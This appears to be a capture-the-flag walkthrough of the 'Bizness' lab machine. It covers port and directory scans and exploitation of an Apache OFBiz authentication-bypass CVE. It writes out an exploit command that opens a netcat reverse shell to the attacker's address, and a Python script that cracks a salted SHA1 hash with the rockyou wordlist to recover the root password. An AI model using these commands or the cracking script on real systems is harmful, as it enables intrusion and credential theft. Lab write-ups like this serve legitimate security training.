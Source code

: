 
Nmap Scanning:

~~~

nmap 10.129.248.54 -sC -sV 
~~~

~~~
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 18:16 IST
Nmap scan report for 10.129.248.54
Host is up (0.28s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp   open     http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp  open     ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
1277/tcp filtered miva-mqs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.42 seconds
~~~



![[Screenshot from 2024-01-08 18-17-48.png]]


Dir Enumeration:

~~~

dirsearch -u https://bizness.htb/
~~~

~~~

[18:21:50] Starting: 
[18:22:23] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[18:22:26] 400 -  795B  - /a%5c.aspx
[18:22:29] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[18:23:14] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[18:23:21] 302 -    0B  - /common  ->  https://bizness.htb/common/
[18:23:21] 404 -  780B  - /common/config/api.ini
[18:23:21] 404 -  779B  - /common/config/db.ini
[18:23:21] 404 -  762B  - /common/
[18:23:25] 302 -    0B  - /content  ->  https://bizness.htb/content/
[18:23:25] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[18:23:25] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[18:23:27] 200 -   34KB - /control/
[18:23:28] 200 -   34KB - /control
[18:23:28] 200 -   11KB - /control/login
[18:23:31] 404 -  763B  - /default.html
[18:23:31] 404 -  741B  - /default.jsp
[18:23:38] 302 -    0B  - /error  ->  https://bizness.htb/error/
[18:23:38] 404 -  770B  - /error/error.log
[18:23:38] 404 -  761B  - /error/
[18:23:39] 302 -    0B  - /example  ->  https://bizness.htb/example/
[18:23:54] 404 -  768B  - /images/README
[18:23:54] 404 -  762B  - /images/
[18:23:54] 404 -  769B  - /images/c99.php
[18:23:54] 302 -    0B  - /images  ->  https://bizness.htb/images/
[18:23:54] 404 -  769B  - /images/Sym.php
[18:23:56] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
~~~

![[Pasted image 20240108182453.png]]

![[Pasted image 20240108182511.png]]

there is an CVE for OFBIZ
so we exploit with this 
https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467

with cve we get the shell 

~~~
sudo python3 ex.py --url https://bizness.htb --cmd 'nc -e /bin/sh  10.10.14.145 1444'
~~~

![[Pasted image 20240108182840.png]]

~~~
nc -lvnp 1444
~~~

 with this command we got the interactive  shell
 
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

we get the user flag 
![[Pasted image 20240108183205.png]]

Root flag

![[Pasted image 20240108183509.png]]

a salt is a random sequence added to the plaintext password before using a one-way function to create a password hash. This process ensures that the same password will not produce the same hash value, as each user's password is hashed using a unique salt. The salt is typically stored alongside the hash. When you want to find the password from a hashed value, you need to use the same salt that was used to originally hash the password. This is why you need the salt to find the password.


so we need salt part of the password to decrypt


![[Pasted image 20240108185618.png]]

~~~
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
~~~


~~~
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}'
~~~

~~~
- `-a`: Treat binary files as text.
- `-r`: Recursively search subdirectories.
- `-i`: Perform case-insensitive matching.
- `-n`: Display line numbers.
- `-o`: Only display the matched parts of the line.
- `-E`: Use extended regular expressions.

The regular expression used is `(\w+\W+){0,5}password(\W+\w+){0,5}`:

- `(\w+\W+){0,5}`: Match 0 to 5 occurrences of one or more word characters followed by one or more non-word characters (essentially allowing for up to 5 words before "password").
- `password`: Match the literal word "password."
- `(\W+\w+){0,5}`: Match 0 to 5 occurrences of one or more non-word characters followed by one or more word characters (essentially allowing for up to 5 words after "password").
~~~


~~~ python

import hashlib
import base64
import os
def cryptBytes(hash_type, salt, value):
    if not hash_type:
        hash_type = "SHA"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
    hash_obj = hashlib.new(hash_type)
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value)
    hashed_bytes = hash_obj.digest()
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
    return result
def getCryptedBytes(hash_type, salt, value):
    try:
        hash_obj = hashlib.new(hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
    except hashlib.NoSuchAlgorithmException as e:
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'
with open(wordlist,'r',encoding='latin-1') as password_list:
    for password in password_list:
        value = password.strip()
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))
        # print(hashed_password)
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
  ~~~

	
we find the password  for root


~~~
Found Password:monkeybizness, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
~~~

![[Pasted image 20240108190503.png]]

finally we got the root flag
